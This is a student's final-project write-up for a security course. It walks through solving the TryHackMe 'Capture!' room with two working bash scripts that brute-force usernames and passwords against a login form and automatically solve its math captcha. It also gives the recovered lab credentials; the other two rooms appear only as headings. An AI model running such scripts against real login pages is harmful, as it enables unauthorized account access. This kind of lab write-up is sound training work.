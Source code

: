 # Fianl Project
## Solving TryHackMe Rooms

By: Nathan Metens

---
## Intro

This is the final project for Intro to Computer Security. In this final, I completed 3 TryHackMe Rooms. The hardest one, was the "easiest" one, the easiest, was the "Security Footage" room. On average, each room took about 1-2 days to solve, working 3+ hours on each per day. This was a struggle, but I learned so much. I have a video [here]() where I go through each Room and how I solved it. This is just the documentation, explaining everything in text, showing capture, and the code.

---
## Table of Contents
1. [Capture!](#capture)
2. [Security Footage](#security-footage)
3. [Crypto Failure](#cryptic-failure)

---
## Capture!
### Can you bypass the login form?
**Dificulty:** *Easy*

Although the difficaulty was "easy", this one took the longest to solve.

![image](capture/1.png)

![image](capture/2.png)

The room had two files to download: `usernames.txt` and `passwords.txt`:
![image](capture/3.png)

![image](capture/login.png)

At first, I tried random usernames to see what the message would be if I inputed something wrong:
![image](capture/user-not-exist.png)
![image](capture/4.png)

After 10 failed usernames attempts with a bas password, the error came up with a captcha math problem:
![image](capture/captcha.png)

Next, I went to the command line and used curl for faster web access. The main curl command was `curl http://10.201.63.166`. This redirected me to the login page and returned the GET. Next, I posted to the page with this curl command: `curl -X POST http://10.201.63.166/login -d "username=metens&password=pass"`, where the `-d` is for the data in the form. Now, I could enumerate much faster and saw that when I solved the captcha, the message would once again tell me that the username was non-existing:
![image](capture/curl-cap.png)
![image](capture/solved-cap.png)

To solve the captcha in curl, I simply added `&captcha=<result>` to the string containing the username and password.

I developed this script to continuously test each username in the `usernames.txt` file until it returned a "Invalid password" error, showing that the username was correct, but the password not.


```sh
#!/bin/bash

usernames="usernames.txt" # The usernames file
password="wrongpass"      # default password
url="http://$1/login"     # program takes ip address as first arg
attempt=223

> responses.txt

# Loop through usernames text file
tail -n +$attempt $usernames | while IFS= read -r username; do

    username=$(echo "$username" | tr -d '\r') # All usernames have carriage returns in the usernames.txt
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request with current username
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")
    echo "$response" >> responses.txt

    # Detect captcha from the response:
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

	# Extract and solve captcha expression from response:
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        # Solve captcha:
        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with captcha answer:
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
            echo "$response" >> responses.txt
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "does not exist"; then
        echo "$attempt -> The user $username does not exist"

    elif echo "$response" | grep -q "Invalid password"; then
        echo "***** $attempt -> Valid Username: $username *****"
        exit 0
    else 
	    continue
    fi

    ((attempt++))
done
```

After about 5-10 minutes of the program running, it finally found the correct username that returned "Invalid password":
![image](capture/username-found.png)
![image](capture/invalid-password.png)

We have successfully enumerated the username. It took **307 attempts**! Now, that we have the username, we can enumerate the password. To do that, we need to slightly update the script, I created a new one:

```sh
#!/bin/bash

passwords="passwords.txt"
url="http://$1/login"
username=$2

attempt=300

tail -n +$attempt $passwords | while IFS= read -r password; do

    password=$(echo "$password" | tr -d '\r') # In case of carriage return
    echo "Attempt $attempt: $username"; echo ""

    # Make initial POST request
    response=$(curl -s -X POST "$url" -d "username=$username&password=$password")

    # Detect Captcha
    if echo "$response" | grep -q "Captcha enabled"; then
        echo "! Captcha triggered. Solving..."

        # Extract and solve captcha expression
        captcha_expr=$(echo "$response" | grep -Eo "[0-9]{1,4} [-+*/] [0-9]{1,4}")

        if [[ -n "$captcha_expr" ]]; then
            captcha_result=$((captcha_expr))
            echo "Solved captcha: $captcha_expr = $captcha_result"

            # Retry POST with CAPTCHA answer
            response=$(curl -s -X POST "$url" \
                -d "username=$username&password=$password&captcha=$captcha_result")
        fi
    fi

    # Reevaluate response
    if echo "$response" | grep -q "Invalid password"; then
        echo "Invalid password: $password"
    else
        echo "**** Password cracked for '$username': $password ****"
        exit 1
    fi

    ((attempt++))
done
```

After 344 attempts, the password was also enumerated. So the username is "natalie" and the password is "sk8board". I went back to the url in the web and typed those in and received the flag:
![image](capture/password-found.png)
![image](capture/flag.png)
![image](capture/solved.png)

This room was about using basic curl commands, bash scripting for enumeration, and using brute force on all of the passwords and usernames in the given text files. It reminds me of using the rockyou.txt file in some of the labs to crack passwords using hashcat, but this time, through curl.

---
## Security Footage
### Perform digital forensics on a network capture to recover footage from a camera.
**Dificulty:** *Medium*

---
## Crypto Failure
### Encrypting your own military-grade encryption is usually not the best idea.
**Dificulty:** *Medium*


